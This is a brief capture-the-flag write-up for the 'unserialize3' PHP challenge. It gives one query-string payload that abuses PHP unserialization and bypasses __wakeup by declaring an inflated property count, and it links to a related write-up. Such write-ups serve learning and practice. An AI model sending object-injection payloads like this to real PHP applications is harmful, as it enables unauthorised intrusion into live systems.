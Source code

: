 # unserialize3

payload:

```
?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}
```

绕过 `__wakeup`:

[Web_php_unserialize](https://github.com/lengochoa7112000/CTF/blob/main/%E6%94%BB%E9%98%B2%E4%B8%96%E7%95%8C/Web_php_unserialize/READ%20ME.md)
